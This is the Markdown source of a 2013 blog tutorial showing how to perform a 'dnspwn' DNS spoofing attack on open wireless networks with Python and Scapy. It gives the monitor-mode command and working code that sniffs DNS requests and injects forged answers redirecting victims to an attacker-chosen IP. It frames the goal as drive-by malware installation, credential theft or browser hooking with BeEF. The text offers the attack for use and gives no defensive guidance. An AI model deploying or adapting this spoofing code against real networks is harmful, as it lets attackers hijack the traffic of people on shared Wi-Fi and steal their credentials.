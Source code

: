 ```yaml
---
layout: post
title: "Wireless Attacks with Python: Part One - The \"Dnspwn Attack\""
date: 2013-11-15 20:45
comments: true
published: true
categories: 
- wireless
- python
- security
---
```


<img src="{{root_url}}/images/headers/wireless_python.png"/>

### Introduction
A while back, I [published a post](http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html) on the Raidersec blog demonstrating how to perform a deauthentication attack using Python and Scapy. I enjoyed writing the post, since I got the opportunity to learn in-depth about how different wireless attacks work, beyond just learning how to exclusively use the [aircrack suite](http://www.aircrack-ng.org/).

So, with that being said, this post will kick off a short series of posts discussing how to perform common wireless attacks using Python. I hope you enjoy the posts and, as always, never hesitate to let me know if you have any comments or questions below.
<!--more-->
### The "Dnspwn Attack"
The first attack we'll explore is what I call the "dnspwn attack" (since, from what I can tell, this attack was first created targeting HTTP with the "[airpwn](http://airpwn.sourceforge.net/Airpwn.html)" tool, and later extended to DNS) The idea behind the attack is pretty simple:

Consider two people on the same open WLAN: Bob and Eve. Eve wants to get Bob to visit a malicious webpage she created so that she can install malware onto Bob's computer via a drive-by download, or perhaps show a spoofed website to try and steal Bob's credentials.

To do this, she remembers that she can sniff all requests coming to and from Bob's computer. She also knows that she is *closer* to Bob than the web server he is sending a request to. So, she decides to wait until Bob sends a web request, and see if she can send back a spoofed response pretending to come from the web server *before* the actual web server can respond. Turns out, she can. In fact, once the spoofed response is received, Bob's computer will likely ignore any further traffic received, including the real response!

Let's see what this would look like:

<a href="{{root_url}}/images/blog/wireless-attacks/dnspwn/diagram.png" target="_blank"><img src="{{root_url}}/images/blog/wireless-attacks/dnspwn/diagram_small.png"/></a>


So, now that we know how the attack works, let's automate it!

### Setting up the Alfa AWUS06H

As was the case in my Raidersec post, we will be using the handy [Alfa AWUS036H](http://www.amazon.com/Alfa-AWUS036H-802-11b-Wireless-network/dp/B002WCEWU8) for this attack. The first thing we want to do is to put our wireless card in monitor mode so that we can capture all traffic coming from the ```demo_insecure``` network.

```
root@bt:~# airmon-ng start wlan0
```

Now that we have monitor mode up and running on ```mon0```, let's start coding!

### Coding the Attack

We will utilize the ```scapy``` module to perform the attack. Let's start by sniffing any UDP packet with a destination of port 53, and send the packet to a function called ```send_response``` that we will make later:

```
from scapy.all import *

sniff(prn=lambda x: send_response(x),
	lfilter=lambda x:x.haslayer(UDP) and x.dport == 53)
```

Now let's create a function which can parse the request for relevant information, and inject the response. We can parse the packet and create our response simply by working our way up the layers as follows:

* 802.11 Frame - Change the "to-ds" flag to "from-ds" (our request will now be coming *from* the access point)
* 802.11 Frame - Switch the source and destination MAC addresses
* IP Layer - Switch the source and destination IP addresses
* UDP layer - Switch the source and destination ports
* DNS layer - Set the "answer" flag(s), and append our spoofed answer

Fortunately, ```scapy``` makes this very simple for us by abstracting away a lot of minor details (e.g. in fact, there are *4* MAC address fields in an 802.11 frame, each in a different order depending on the direction of the packet). With that being said, here's the code:

```
def send_response(x):
	# Get the requested domain
	req_domain = x[DNS].qd.qname
	spoofed_ip = '192.168.2.1'
	# Let's build our response from a copy of the original packet
	response = x.copy()
	# We need to start by changing our response to be "from-ds", or from the access point.
	response.FCfield = 2L
	# Switch the MAC addresses
	response.addr1, response.addr2 = x.addr2, x.addr1
	# Switch the IP addresses
	response.src, response.dst = x.dst, x.src
	# Switch the ports
	response.sport, response.dport = x.dport, x.sport
	# Set the DNS flags
	response[DNS].qr = 1L
	response[DNS].ra = 1L
	response[DNS].ancount = 1
```

Now that we've set all the flags, let's create and append the DNS answer:

```
response[DNS].an = DNSRR(
	rrname = req_domain,
	type = 'A',
	rclass = 'IN',
	ttl = 900,
	rdata = spoofed_ip
	)
```

And, finally, we inject the spoofed response:

```
sendp(response)
```

That's all there is to it! You can find the full source on [Github](https://github.com/jordan-wright/python-wireless-attacks/blob/master/dnspwn.py).

### Demo
For the demo, I have the following HTML response available on the host 192.168.2.138:

```
<html>
<head></head>
<body>
	Owned.
</body>
</html>
```

It's worth noticing that we can have *any* HTML, Javascript, etc. we want. It would be trivial to hook the browser using the [BeEF framework](http://beefproject.com/), for example.

Here's a screenshot of it in action (I am using my iPhone as the victim):

<a href="{{root_url}}/images/blog/wireless-attacks/dnspwn/screen_shot_pc.png" target="_blank"><img src="{{root_url}}/images/blog/wireless-attacks/dnspwn/screen_shot_pc.png"/></a>
<a href="{{root_url}}/images/blog/wireless-attacks/dnspwn/iphone.png" target="_blank"><img src="{{root_url}}/images/blog/wireless-attacks/dnspwn/iphone_small.png"/></a>

### Conclusion & Future Improvements
It's important to note that this attack will work just as well on other simple request/response protocols. For example, the original "airpwn" attack spoofed HTTP responses. There are also quite a few improvements we can make to this script. Here are a few:

* Match requests against regular expressions (for example, only replacing Javascript content)
* Set options from arguments / Read configuration information from a file
* Implement the attack for other protocols (ie HTTP).

Enjoy!

Jordan